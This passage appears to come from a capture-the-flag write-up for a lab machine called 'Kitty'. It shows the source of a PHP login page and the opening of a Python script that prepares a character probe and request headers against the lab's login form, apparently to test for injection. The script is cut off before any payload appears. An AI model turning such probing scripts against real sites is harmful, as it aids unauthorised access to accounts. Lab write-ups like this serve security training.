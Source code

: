 ```bash
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Development User Login</h2>
        <p>Please fill in your credentials to login.</p>

<?php 
if(!empty($login_err)){
        echo '<div class="alert alert-danger">' . $login_err . '</div>';
}        
?>

        <form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control">
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control">
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
	    </div>
	    <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
        </form>
    </div>
</body>
</html>
```

<br>
<br>

```bash
:~/Kitty# cat test.py
import requests

probe = '+-{}(), abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_'
url = 'http://10.201.19.107/index.php'
headers = {
	'Host': 'kitty.thm',
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',
	'Accept-Encoding': 'gzip, deflate, br',
	'Content-Type': 'application/x-www-form-urlencoded',
	'Origin': 'http://10.201.19.107',
	'Connection': 'close',
```